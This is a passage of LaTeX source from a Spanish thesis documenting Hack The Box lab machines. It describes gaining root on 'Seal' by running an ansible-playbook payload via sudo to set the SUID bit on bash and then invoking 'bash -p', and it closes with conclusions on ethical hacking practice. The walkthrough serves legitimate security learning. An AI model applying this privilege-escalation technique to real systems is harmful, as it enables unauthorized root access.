    
\includegraphics[width=0.75\textwidth]{images/machines/seal/ssh-luis.png}
    \caption{Seal: Login \acrshort{ssh} de \textit{luis}}
    \label{fig:seal-ssh-luis}
\end{figure}

\subsection{Escalada de privilegios}

Como ya estamos conectados a la máquina como \textit{luis}, ahora vamos a intentar obtener \textit{root}. Para ello, primero comprobamos si hay algún archivo que \textit{luis} pueda ejecutar como \textit{root}. Como se muestra en la siguiente figura (figura \ref{fig:seal-sudo}), se puede ejecutar \texttt{/usr/bin/ansible-playground} como \textit{root}. De nuevo, utilizamos \textit{Google} para ver qué podemos hacer con \textit{Ansible Playground}\cite{ansible-playbooks}. Vemos que podemos ejecutar comandos como los ejecutaríamos en cualquier shell.
\begin{figure}[h]
    \centering
    
\includegraphics[width=0.9\textwidth]{images/machines/seal/sudo-l-luis.png}
    \caption{Seal: Comando \texttt{sudo -l}}
    \label{fig:seal-sudo}
\end{figure}

Se prueban distintos payloads para intentar obtener un shell como \textit{root}. Se prueba el mismo payload que se utilizó en la máquina anterior, pero sin éxito. Se prueba utilizando el comando \texttt{exec} para obtener un bash, pero sigue sin dar resultado. Finalmente, se decide a crear un payload\footnote{\href{https://github.com/VictorNS69/TFM/blob/main/machines/seal/pe.yml}{Archivo \textit{pe.yml}}} que modifique los permisos del comando \texttt{/usr/bin/bash}. El objetivo de este payload es modificar los permisos para que cuando se ejecute \texttt{/usr/bin\\/bash} se asigne el \texttt{euid} y \texttt{egid} (id de usuario e id de grupo respectivamente) de \textit{root}. El motivo por el cual se utiliza este payload es utilizar una de las características de \textit{Linux} que permite ejecutar archivos modificando el \textit{id efectivo} del usuario llamante; esto quiere decir que, si el creador del archivo es \textit{root}, y está habilitado el bit, se permite modificar el \textit{id} del llamante (en este caso \textit{luis}), y que utilice el \textit{id} de \textit{root}. Así, se consigue que al utilizar el comando \texttt{/usr/bin/bash}, podamos hacerlo como súper-usuario.\\

A continuación, se muestran los comandos seguidos para realizar la escalada de privilegios (figura \ref{fig:seal-escalada-priv}).\\
\begin{figure}[h]
    \centering
    
\includegraphics[width=1.0\textwidth]{images/machines/seal/obtencion-root.png}
    \caption{Seal: Escalada de privilegios}
    \label{fig:seal-escalada-priv}
\end{figure}

En la figura se realizan unos pasos extra para que sea más sencillo comprender el ataque realizado:
\begin{enumerate}
    \item Primero consultamos los permisos del comando \texttt{/usr/bin/bash}. Vemos que no tiene asignado el bit \texttt{s}.
    \item Segundo, se muestra la información de \textit{luis} con el comando \texttt{id}. Vemos que \textit{luis} tiene el \textit{id efectivo} igual que el \textit{id real} (\texttt{uid=1000} y \texttt{gid=1000}).
    \item En este punto es donde ejecutamos nuestro payload, utilizando \texttt{/usr/bin/ansible\\-playbook} como súper-usuario.
    \item Tras la ejecución exitosa del paso anterior, volvemos a comprobar los permisos del comando \texttt{/usr/bin/bash}, y esta vez vemos que si está activado el bit \texttt{s}.
    \item Entonces ejecutamos \texttt{bash -p} para lograr el shell con \textit{root}. Según la documentación del manual del comando \texttt{bash}\cite{bash-man}, el parámetro \texttt{-p}:
          \begin{quote}
              \textit{Si el shell se inicia con el ID efectivo de usuario (grupo) que no es igual al ID real de usuario (grupo), y no se suministra la opción \texttt{-p}, no se leen los archivos de inicio, las funciones del shell no se heredan del entorno, las variables \texttt{SHELLOPTS}, \texttt{BASHOPTS}, \texttt{CDPATH} y \texttt{GLOBIGNORE}, si aparecen en el entorno, se ignoran, y el ID efectivo de usuario se establece en el ID real de usuario.  Si se suministra la opción \texttt{-p} en la invocación, el comportamiento de inicio es el mismo, pero el ID de usuario efectivo no se restablece.}
          \end{quote}
    \item Por último, s ejecuta de nuevo el comando \texttt{id}. Se comprueba que el \textit{id real} sigue siendo el que se mostró en el paso 2, pero esta vez, el \textit{id efectivo} es el de \textit{root} (\texttt{euid=0} y \texttt{egid=0}).
\end{enumerate}

Tras obtener el shell con \textit{root}, encontramos la flag de sistema en su home (\texttt{/root}).

\subsection{Resumen}

En esta máquina, el mayor reto se encontraba en la enumeración y la escalada horizontal (pasar de \textit{tomcat} a \textit{luis}). Se ha dedicado un gran tiempo a la enumeración de la página en el puerto 8080/\acrshort{tcp}, ya que había dos repositorios y varios archivos. Ha costado encontrar el commit que mostraba las credenciales del usuario \textit{tomcat}.\\

Analizar el servicio del puerto 443/\acrshort{tcp} también ha sido un reto, ya que mi primera idea era encontrar un \acrshort{cve}. Encontré varios \acrshort{cve}s para \textit{Apache Tomcat 9.0.31} pero ninguno daba resultado. También probé con \textit{Metasploit} pero no tuve suerte. Finalmente acabé mirando el foro público de la máquina\cite{seal-forum}, y ahí leí una pista que decía algo como ``prueba a acceder a los archivos que no deberías poder``, lo cual me hizo pensar en \textit{path/directory traversal}.\\

Una vez en la máquina, usando \textit{linPEAS} y estudiando sobre \textit{Ansible Playground}, encontramos el archivo que hace backups cada poco tiempo. En este punto recordé otro de los comentarios del foro que leí que decía ``hay varias maneras de copiar archivos``, lo que me hizo pensar en los enlaces simbólicos.\\

Por último, la escalada de privilegios, me resultó muy interesante, ya que tuve que estudiar el funcionamiento de \textit{Linux} con la gestión de permisos de los archivos, además de las diferencias entre \textit{id real} e \textit{id efectivo}.\\

    \newpage
    \section{Conclusiones}
    En una sociedad tan dependiente de la tecnología como la actual, son cada vez más comunes los ataques: las estafas electrónicas, los robos de información o los ataques a las empresas con \textit{ransomware}. Estos ataques los hacen los conocidos \textit{hackers}, pero como ya hemos visto, un ``\textit{hacker}`` no es siempre alguien con el objetivo de hacer el mal. Los \textit{hackers}, en concreto los \textit{white hats} ayudan y mejoran la seguridad en la red; ayudan a las empresas frente a los ataques, y a fortalecer sus aplicaciones y servicios en la red.\\

Uno de los principales elementos que hace a un \textit{hacker} ser bueno es la experiencia obtenida con los años. Por eso, programas como \acrfull{HTB} permiten a los profesionales mejorar sus habilidades prácticas. Además de \acrshort{HTB}, existen otras herramientas en la red, como los desafíos de \acrlong{CTF} o los programas de \textit{Bug Bounty}. Con los dos primeros mencionados, es posible elegir temática y dificultad, teniendo la posibilidad de utilizar estas herramientas siendo alguien nuevo en la materia, o un \textit{hacker} experto. Respecto a los \textit{bug bounties}, requiere algo más de experiencia, ya que los programas no son otra cosa que empresas que publican sus servicios (como páginas web) a disposición de los \textit{hackers}, con la intención de que estos encuentren vulnerabilidades a cambio de recompensas económicas, así la empresa puede corregir las fallas antes de que un atacante con malas intenciones las explote.\\

En el estudio realizado, se han mostrado la resolución de dos máquinas, \textit{Cap} y \textit{Seal}, de dificultades \textit{easy} y \textit{medium} respectivamente. Se han utilizado diversas herramientas y técnicas, consiguiendo en ambas máquinas, el objetivo final: obtener el flag de \textit{root}. Al elegir dos máquinas, se ha podido estudiar dos sistemas completamente distintos. Ambas máquinas tenían un servicio web con el cual se ha logrado explotar una vulnerabilidad y entrar al sistema. Una vez en el sistema, se ha realizado escalada de privilegios con distintas técnicas.\\

Este trabajo ha sido muy instructivo y divertido, ya que la mayor parte del trabajo ha sido práctico y de investigación. Se ha tenido que investigar mucho, tanto las tecnologías usadas, como las versiones de los servicios desplegados (con la intención de encontrar \acrshort{cve}s). En conclusión, recomiendo el uso de este tipo de herramientas, como \acrshort{HTB}, ya que permiten practicar los conocimientos y habilidades de \textit{hacking}, además de realizarse a modo de ``\textit{juego}``.\\

Por último, este trabajo también ha servido para estudiar lo que supone cualquier tipo de servicio para una entidad. Un simple fallo de configuración, un permiso mal puesto en un archivo o una tecnología no actualizada puede derivar en una gran brecha de seguridad para la empresa, permitiendo la obtención de datos a usuarios no autorizados, la ejecución de código en un servidor, o permitir una conexión con los elementos internos y privados de la empresa.

    \newpage
    \section{Trabajo Futuro}
    Este trabajo es autoconclusivo, es decir, no se han quedado temas por tratar, o planes para futuras iteraciones o trabajos posteriores.\\

En cuanto a mí (el autor), seguiré realizando \acrshort{CTF}s e investigando sobre el \textit{hacking}, con la intención de poder dedicarme al mundo de la ciberseguridad de manera profesional. También continuaré realizando máquinas en \acrshort{HTB}, ya que es una herramienta muy cómoda de usar y que permite aprender muchas cosas, además de contar con foros en los que los usuarios comentan sus experiencias y sus métodos para realizar las distintas máquinas.

    \newpage
    % \nocite{*} % Cita todas las ref (incluidas las no citadas)
    \printbibliography[heading=bibnumbered] % Última sección, numerada, para la bibliografía

\end{otherlanguage}
\end{document}
